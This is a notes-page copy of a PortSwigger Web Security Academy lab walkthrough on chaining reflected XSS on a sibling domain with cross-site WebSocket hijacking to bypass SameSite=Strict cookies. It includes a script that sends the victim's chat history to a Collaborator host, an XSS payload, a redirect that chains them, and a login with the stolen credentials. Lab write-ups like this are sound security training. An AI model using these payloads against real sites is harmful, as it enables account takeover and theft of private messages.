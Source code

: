 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/ps-wsa-labs/csrf/same-site-strict-bypass-via-sibling-domain/"}
---
```







### **Study the live chat feature**

1. In Burp's browser, go to the live chat feature and send a few messages.
2. In Burp, go to the **Proxy > HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.
3. Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) cookie restrictions.
4. In the browser, refresh the live chat page.
5. In Burp, go to the **Proxy > WebSockets history** tab. Notice that when you refresh the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.

### **Confirm the CSWSH vulnerability**

1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. A new Collaborator payload is saved to your clipboard.
2. In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:`<script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`
3. Store and view the exploit yourself
4. In Burp, go back to the **Collaborator** tab and click **Poll now**. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Notice that your session cookie was not sent with the request.
8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

### **Identify an additional vulnerability in the same "site"**

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.
2. In the browser, visit this new URL to discover an additional login form.
3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.
4. Try injecting an XSS payload via the `username` parameter, for example:`<script>alert(1)</script>`
5. Observe that the `alert(1)` is called, confirming that this is a viable [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vector.
6. Send the `POST /login` request containing the XSS payload to Burp Repeater.
7. In Burp Repeater, right-click on the request and select **Change request method** to convert the method to `GET`. Confirm that it still receives the same response.
8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

### **Bypass the SameSite restrictions**

1. Recreate the CSWSH script that you tested on the exploit server earlier.`<script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`
2. URL encode the entire script.
3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request you just tested, but use the URL-encoded CSWSH payload as the `username` parameter. The following is one possible approach:`<script> document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything"; </script>`
4. Store and view the exploit yourself.
5. In Burp, go back to the **Collaborator** tab and click **Poll now**. Observe that you've received a number of new interactions, which contain your entire chat history.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Confirm that this request does contain your session cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

### **Deliver the exploit chain**

1. Go back to the exploit server and deliver the exploit to the victim.
2. In Burp, go back to the **Collaborator** tab and click **Poll now**.
3. Observe that you've received a number of new interactions.
4. Study the HTTP interactions and notice that these contain the victim's chat history.
5. Find a message containing the victim's username and password.
6. Use the newly obtained credentials to log in to the victim's account and the lab is solved.